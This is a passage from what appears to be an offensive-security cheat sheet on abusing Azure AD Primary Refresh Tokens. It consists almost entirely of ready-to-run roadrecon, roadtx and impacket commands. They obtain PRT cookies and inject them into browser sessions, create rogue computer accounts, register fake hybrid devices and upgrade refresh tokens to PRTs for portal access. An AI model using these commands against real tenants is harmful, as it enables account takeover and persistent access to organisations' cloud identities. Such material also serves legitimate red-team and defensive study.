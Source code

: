 * Request a nonce from AAD: `roadrecon auth --prt-init -t <tenant-id>`
* Use [dirkjanm/ROADtoken](https://github.com/dirkjanm/ROADtoken) or [wotwot563/aad_prt_bof](https://github.com/wotwot563/aad_prt_bof) to initiate a new PRT request.
* `roadrecon auth --prt-cookie <prt-cookie> --tokens-stdout --debug` or  `roadtx gettoken --prt-cookie <x-ms-refreshtokencredential>`
* Then browse to [login.microsoftonline.com ](login.microsoftonline.com ) with a cookie `x-ms-RefreshTokenCredential:<output-from-roadrecon>`
    ```powershell
    Name: x-ms-RefreshTokenCredential
    Value: <Signed JWT>
    HttpOnly: √
    ```

:warning: Mark the cookie with the flags `HTTPOnly` and `Secure`.


### Request a PRT with Hybrid Device

Requirements:

* ADDS user credentials
* hybrid environment (ADDS and Azure AD)

Use the user account to create a computer and request a PRT

* Create a computer account in AD: `impacket-addcomputer <domain>/<username>:<password> -dc-ip <dc-ip>`
* Configure the computer certificate in AD with [dirkjanm/roadtools_hybrid](https://github.com/dirkjanm/roadtools_hybrid): `python setcert.py 10.10.10.10  -t '<machine-account$>' -u '<domain>\<machine-account$>' -p <machine-password>`
* Register the hybrid device in Azure AD with this certificate: `roadtx hybriddevice -c '<machine-account>.pem' -k '<machine-account>.key' --sid '<device-sid>' -t '<aad-tenant-id>'`
* Get a PRT with device claim

    ```ps1
    roadtx prt -c <hybrid-device-name>.pem -k <hybrid-device-name>.key -u <username>@h<domain> -p <password>
    roadtx browserprtauth --prt <prt-token> --prt-sessionkey <prt-session-key> --keep-open -url https://portal.azure.com
    ```


### Upgrade Refresh Token to PRT

* Get correct token audience: `roadtx gettokens -c 29d9ed98-a469-4536-ade2-f981bc1d605e -r urn:ms-drs:enterpriseregistration.windows.net --refresh-token file`
* Registering device: `roadtx device -a register -n <device-name>`
* Request PRT `roadtx prt --refresh-token <refresh-token> -c <device-name>.pem -k <device-name>.key`
* Use a PRT: `roadtx browserprtauth --prt <prt-token> --prt-sessionkey <prt-session-key> --keep-open -url https://portal.azure.com`


### Enriching a PRT with MFA claim
